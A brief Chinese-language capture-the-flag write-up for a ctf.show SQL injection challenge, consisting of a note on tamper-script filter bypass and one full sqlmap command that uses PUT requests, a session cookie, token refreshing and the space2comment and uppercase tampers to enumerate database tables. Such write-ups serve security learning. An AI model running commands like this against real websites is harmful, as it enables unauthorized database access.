

# 知识点
在使用一个uppercase.py大写绕过（其实sqlmap的select默认大写，原来的payload也完全可以）
# 思路
```bash
python sqlmap.py -u "http://6f26b2b2-7b83-431e-aba9-122bd6d08b17.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=1vrv4fg7q4uid8i1lhma043h20" --safe-url="http://6f26b2b2-7b83-431e-aba9-122bd6d08b17.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment.py,uppercase.py -D ctfshow_web --tables
```

